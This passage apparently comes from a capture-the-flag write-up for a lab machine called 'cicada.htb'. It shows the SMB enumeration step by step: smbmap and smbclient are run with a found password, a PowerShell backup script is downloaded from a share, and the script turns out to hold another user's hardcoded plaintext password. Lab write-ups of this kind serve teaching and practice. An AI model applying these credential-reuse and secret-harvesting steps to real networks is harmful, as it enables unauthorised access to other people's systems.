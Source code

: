 * David Orelious is another tough guy...here is his PW
  * ```
    aRt$Lp#7t*VQ!3
    ```

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

* we have two users, lets check what right they have...

```bash
smbmap -H 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'

[+] IP: 10.10.11.35:445	Name: cicada.htb                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	DEV                                               	READ ONLY	
	HR                                                	READ ONLY	
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	SYSVOL                                            	READ ONLY	Logon server share
```

* cool, he has rights to another shares...lets test DEV one

```bash
$smbclient //10.10.11.35/DEV -U 'david.orelious' -N 'aRt$Lp#7t*VQ!3'
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 13:31:39 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 19:28:22 2024

		4168447 blocks of size 4096. 415326 blocks available
smb: \> get Backup_script.ps1 
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (2,0 KiloBytes/sec) (average 2,0 KiloBytes/sec)
smb: \> exit
```

* we obtained backup\_script.ps1...
  * lets check it out

```bash
$cat Backup_script.ps1 

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```